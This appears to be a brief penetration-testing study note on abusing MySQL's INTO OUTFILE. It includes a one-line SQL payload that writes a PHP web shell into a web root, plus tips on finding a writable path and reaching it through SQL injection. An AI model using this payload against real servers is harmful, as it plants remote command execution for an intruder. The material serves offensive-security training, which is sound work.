 # Exploiting MySQL

* **author**:: Nathan Acks
* **date**:: 2022-08-03

You can "upload" reverse shells using MySQL using `INTO OUTFILE`:

```sql
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/cmd.php';
```

The path may require some brute-forcing or additional reconnaissance; sometimes you can force an error to return a (potentially) writeable path. Depending on how the application you're attacking is configured, it may be possible to exploit this via SQLi.

This can be used to bootstrap reverse shells.

* [2022-08-03 — OffSec Live: PEN-200 & AWS Deep Dive](../log/2022-08-03-offsec-live-pen-200-and-aws-deep-dive.md)
* [SQL Injection](sql-injection.md)
